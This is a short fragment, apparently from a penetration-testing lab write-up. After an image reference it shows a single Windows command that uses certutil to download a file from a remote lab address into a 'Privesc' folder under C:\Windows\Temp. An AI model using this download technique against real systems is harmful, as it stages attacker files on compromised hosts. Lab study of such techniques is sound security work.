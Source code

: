 

certutil -urlcache -split -f http://10.10.14.42/iisstart.htm C:\Windows\Temp\Privesc\iisstart.htm
